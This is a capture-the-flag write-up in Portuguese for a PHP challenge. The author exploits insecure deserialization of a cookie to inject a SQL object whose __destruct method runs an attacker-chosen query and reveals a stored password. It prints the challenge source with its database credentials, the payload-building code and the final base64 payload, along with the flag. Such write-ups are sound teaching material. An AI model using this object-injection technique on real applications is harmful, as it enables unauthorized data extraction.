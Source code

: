## Chall 12 - Objetos Mágicos (made by Guerra - PInG 2020)
#### Alex:
**Flag:** `Ganesh{pHp_!s_Fkn_bR@k3n}`  

Ao enviar ids para o site e realizar a busca percebi que o id *2* possuía o username de *flag*, o que chamou a atenção.

Então fui olhar os source codes do site, fornecidos.

Inicialmente olhei na seguinte parte do código (`source1.txt`), pensando que poderia quebrar alguma coisa:
```php
if (isset($_REQUEST['id']) && is_numeric($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } 
    catch (Exception $e) {
        echo 'Invalid query';
    }
}
```

Mas após muitas tentativas (inclusive de tentar converter uma string para URL encode, tentando burlar a função `ìs_numeric`), percebi que provavelmente esse não fosse o caminho. 

Então passei a olhar para a outra parte do mesmo código (`source1.txt`):
```php
if (isset ($_COOKIE['h4ck_m3'])) {
    $sess_data = unserialize(base64_decode($_COOKIE['h4ck_m3']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die("We are secure, you can't hack us!!");
        }
    } 
    catch (Exception $e) {
        echo $e;
    }
} 
else {
    $cookie = base64_encode(serialize(array( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('h4ck_m3', $cookie, time () + (86400 * 30));
}
```

Entendi que isso era uma verificação por meio de cookies para evitar (ou tentar) que fosse possível uma SQLInj.  
Então, comecei a olhar para as funções utilizadas nessa verificação e percebi que ela era feita por meio da serialização de um objeto (array) que possuia o ip do servidor.  
Me lembrando do top 10 da OWASP, em especial o oitavo item (Insecure Deserialization), pensei poder ser esse o caminho para quebrar o código.  

Então fiz algumas pesquisas sobre como funciona a serialização/desserialização de objetos no PHP além de falhas relacionadas a isso. Foi quando vi que em um objeto que possui os "*magic methods*" no php (__wakeup, __destruct, etc), esses metodos são executados normalmente após o objeto ser desserializado. [[Link de Base]](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

E pra minha sorte (ou não) a classe SQL executava o código da busca no método `__destruct`. Então bastava achar uma forma de colocar um objeto do tipo SQL() no cookie de verificação, com a query que eu quiser, para fazer a busca pela flag.

Para isso abri um terminal do php (`$> php - a`) e comecei por recriar a classe para conseguir serializá-la.
```php
class SQL {
    public $query = '';
    public $conn;

    public function __construct() {}
    
    public function connect() {
        $servername = "localhost";
        $username = "db_user";
        $password = "w3b_4_Th3_W!n";
        $database = "cereal";

        $this->conn = new mysqli($servername, $username, $password, $database);

        if (!$this->conn)
            die("Debugging error[" . mysqli_connect_errno() . "]: " . mysqli_connect_error() . PHP_EOL);
    }

    public function SQL_query($query) {
        $this->query = $query;
        echo "QUERY:" . $this->query;
    }

    public function execute() {
        return $this->conn->query($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn))
            $this->connect();
        
        $ret = $this->execute();

        if ($ret !== false) {   
            echo "<h2> Resposta: </h2>";
            while ($row = $ret->fetch_assoc()) {
                echo '<p class="user"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

Então criei uma instancia dessa classe e coloquei nela a query que buscava a flag (note que a flag provavelmente estava no campo password, o que me fez usar o alias do SQL).
```php 
$sql = new SQL();
$sql->query = "SELECT password as username FROM users WHERE id=2";
```

Então fui olhar nos cookies do navegador, para obter o objeto guardado no cookie "h4ck_m3". Vendo que estava em *base64*, converti para string e depois para objeto:

```php
$data = unserialize(base64_decode("YToxOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7fQ=="));
```

Então eu obtive o objeto que é utilizado para a verificação. Bastava agora inserir o objeto SQL() criado e serializar o array novamente.

```php
$data[0] = $sql;
$str = base64_encode(serialize($data));

echo $str;
```

E isso me imprimiu o resultado: `YToyOntzOjI6ImlwIjtzOjk6IjEyNy4wLjAuMSI7aTowO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjQ5OiJTRUxFQ1QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgRlJPTSB1c2VycyBXSEVSRSBpZD0yIjtzOjQ6ImNvbm4iO047fX0=`.

Agora basta editar o cookie e reenviar a request para o servidor.
Ao fazer isso (pelo próprio dev-tools do firefox), a página retornada é a seguinte:
![](https://i.imgur.com/1g7PyYj.png)

